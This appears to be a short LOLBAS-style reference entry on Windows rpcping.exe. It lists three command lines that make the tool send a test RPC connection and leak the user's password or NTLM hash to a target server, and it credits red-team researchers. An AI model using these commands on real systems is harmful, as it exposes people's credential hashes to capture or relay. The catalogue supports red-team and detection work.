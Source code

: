 ## Rpcping.exe
* Functions: Credentials
```

rpcping -s 127.0.0.1 -t ncacn_np
Send a RPC test connection to the target server (-s) sending the password hash in the process.

rpcping -s 192.168.1.10 -ncacn_np
Send a RPC test connection to the target server (-s) sending the password hash in the process.

rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
```
   
* Resources:   
  * https://twitter.com/subtee/status/872797890539913216
  * https://github.com/vysec/RedTips
  * https://twitter.com/vysecurity/status/974806438316072960
  * https://twitter.com/vysecurity/status/873181705024266241
   
* Full path:   
  * C:\Windows\System32\rpcping.exe
  * C:\Windows\SysWOW64\rpcping.exe
   
* Notes: Thanks to Casey Smith - @subtee, Vincent Yiu - @vysecurity  
   
